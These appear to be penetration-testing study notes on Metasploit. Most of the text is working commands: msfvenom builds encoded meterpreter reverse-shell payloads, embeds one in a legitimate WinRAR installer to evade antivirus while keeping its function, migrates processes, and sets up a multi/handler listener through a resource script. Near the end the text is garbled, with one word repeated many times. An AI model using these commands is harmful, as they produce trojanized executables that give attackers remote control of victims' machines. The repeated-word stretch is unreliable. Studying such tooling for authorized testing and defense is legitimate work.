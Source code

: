 demo:
`msfvenom --list encoders`
typically best is (excellent rank):
x86/shikata_ga_nai 
cmd/powershell_base64

Encode once
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerip> LPORT=<rand> -e x86/shikata_ga_nai -f exe > encodex86.exe`

Encoded 10 iterations (anymore wont affect much)
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerip> LPORT=<rand> -i 10 -e x86/shikata_ga_nai -f exe > encodedx86.exe`

`msfvenom -p linux/meterpreter/reverse_tcp LHOST=<attackerip> LPORT=<rand> -i 10 -e x86/shikata_ga_nai -f elf > encodedx86

### Injecting payloads into Windows Portable Executables
- avoid AV detections
- Put payload into legitimate exe (eg WinRAR)

demo:
- Download WinRAR (for example only)
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerip> LPORT=<rand> -i 10 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > winrar.exe`

if `-k` options is used also, the original functionality of the exe (winrar) can be maintained

`run post/windows/manage/migrate ` 
--> migrate ps to notepad.exe automagically

if not
`ps`
- Choose a process with rights
`migrate <pid>`

## Automating Metasploit with resource scripts
- automate repetitive tasks
- like batch scripts
- scripts
- scripts
- scripts
scripts
scripts
scripts
scripts
scripts
Prepackaged scripts
`ls -al /usr/share/metasploit-framework/scripts/resource/ `

Eg 
Set up multi handler automatically
`nano handler.rc`
```ruby
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOSTS 10.10.10.5
set LPORT 1234
run
```
